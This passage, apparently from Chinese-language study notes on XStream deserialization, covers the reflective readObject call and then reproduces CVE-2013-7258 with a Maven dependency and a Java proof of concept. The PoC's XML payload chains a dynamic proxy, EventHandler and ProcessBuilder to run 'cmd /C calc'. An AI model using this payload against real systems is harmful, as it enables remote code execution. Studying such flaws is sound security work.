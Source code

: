 跟进callReadObject

![image-20220518184446831](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518184446831.png)

这里通过反射调用了对应类的readObject方法，所以在实现serializable接口的时候会调用对应的readObject方法

# CVE-2013-7258远程代码执行漏洞

漏洞影响范围：1.4.x<=1.4.6或1.4.10

复现环境：1.4.5

```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.5</version>
</dependency>
```

## 漏洞复现

POC

```
package XStream;

import com.thoughtworks.xstream.XStream;

public class Unser {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";
        xStream.fromXML(xml);
    }



}
```
